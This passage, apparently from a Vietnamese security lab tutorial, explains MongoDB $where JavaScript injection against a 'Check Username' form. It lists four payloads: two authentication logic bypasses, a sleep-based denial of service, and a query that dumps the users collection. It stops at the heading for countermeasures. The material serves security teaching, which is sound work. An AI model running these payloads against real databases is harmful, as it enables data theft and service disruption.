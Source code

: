 
### Attack 3: JavaScript Injection (CỰC KỲ NGUY HIỂM!)

**Mục tiêu:** Thực thi JavaScript code trên MongoDB server

**⚠️ Đây là lỗ hổng nghiêm trọng nhất!**

**Các bước:**
1. Mở form "Check Username ($where)"
2. Thử các payload:

**Payload 1 - Bypass Logic:**
```
' || '1'=='1
```

**Giải thích:**
```javascript
// Query ban đầu
$where: "this.username == 'USER_INPUT'"

// Sau khi inject: ' || '1'=='1
$where: "this.username == '' || '1'=='1'"
// Kết quả: Luôn TRUE → Trả về tất cả documents!
```

**Payload 2 - Return True:**
```
'; return true; //
```

**Giải thích:**
```javascript
$where: "this.username == ''; return true; //'"
// Phần sau // bị comment → Luôn return true
```

**Payload 3 - Sleep Attack (DoS):**
```
'; sleep(5000); return true; //
```

**Kết quả:** Server bị treo 5 giây! (Denial of Service)

**Payload 4 - Dump Database (Nếu MongoDB config yếu):**
```javascript
'; var users = db.users.find().toArray(); return JSON.stringify(users); //
```

**Tại sao nguy hiểm?**
- Có thể thực thi BẤT KỲ JavaScript code nào
- Có thể đọc toàn bộ database
- Có thể gây DoS
- Có thể xóa dữ liệu (nếu có quyền)

---

## 🛡️ BIỆN PHÁP PHÒNG CHỐNG
